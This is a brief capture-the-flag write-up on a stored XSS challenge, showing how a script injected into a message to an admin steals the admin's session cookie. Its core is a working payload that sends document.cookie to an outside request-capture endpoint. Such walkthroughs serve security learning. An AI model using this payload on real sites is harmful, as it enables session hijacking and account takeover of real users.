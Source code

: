 # XSS Stored 1 - Writeup

> Steal the administrator session cookie and use it to validate this chall.

**Steps**
- [x] Start the challenge
- [x] See that there is a form to send messages to the admin
- [x] Searching a way to stole the cookie

**How to stole the cookie ?**

In order to stole the admin's cookie, you should interest youself in endpoints.
An endpoint is any device that is physically an end point on a network such as laptops, desktops, mobile phones, tablets, servers, and virtual environments.

Consider using [**beeceptor**](https://beeceptor.com/) as an endpoint creator.

In this example we have made an endpoint named : **https://zidane.free.beeceptor.com**

Using the code below you will be able to stole the admin cookie by creating in the message that you send to the admin an image.
```

<script>document.write('<img src="https://zidane.free.beeceptor.com/bonjour?cookie=' + document.cookie + '" />')</script>

```

This image will refer to your endpoint, adding the cookie in parameter of the https request thanks to ``` /bonjour?cookie=' + document.cookie ```

Few minutes later, you will receive the cookie on [**beeceptor**](https://beeceptor.com/) because the "admin" would have open the message.

